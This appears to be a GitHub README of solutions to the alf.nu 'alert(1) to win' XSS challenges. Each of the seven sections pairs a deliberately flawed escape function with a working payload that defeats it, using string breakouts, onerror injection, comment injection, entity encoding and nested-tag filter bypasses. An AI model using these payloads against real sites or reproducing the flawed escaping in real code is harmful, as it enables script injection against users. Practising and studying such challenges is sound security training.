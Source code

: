 # alf.nu

> alert(1) to win
 
## Challenges
- [Warmup](#warmup)
- [Adobe](#adobe)
- [JSON](#json)
- [Markdown](#markdown)
- [DOM](#dom)
- [Skandia](#skandia)
- [JSON2](#json2)

## Warmup

- Task

```
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

- Solution

```
",alert(1),"
```

## Adobe

- Task

```
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

- Solution

```
\");alert(1)//
```

## JSON

- Task

```
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```
</script><script>alert(1)//
```

## Markdown

- Task

```
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```

- Solution

```
[[x|http://onerror=javascript:alert(1)//]]
```

## DOM

- Task

```
function escape(s) {
  // Slightly too lazy to make two input fields.
  // Pass in something like "TextNode#foo"
  var m = s.split(/#/);

  // Only slightly contrived at this point.
  var a = document.createElement('div');
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
  return a.innerHTML;
}
```

- Solution

```
Comment#--><img src onerror=alert(1) /><!--
```

- HTML source

```
<!----><img src onerror=alert(1) /><!---->
```

## Skandia

- Task

```
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

- Solution

```
</script><img src onerror=&#x61;&#x6C;&#x65;&#x72;&#x74;(1)>
```

## JSON2

- Task

```
function escape(s) {
  s = JSON.stringify(s).replace(/<\/script/gi, '');

  return '<script>console.log(' + s + ');</script>';
}
```

- Solution

```
</scrip</scriptt><script>alert(1)//
```

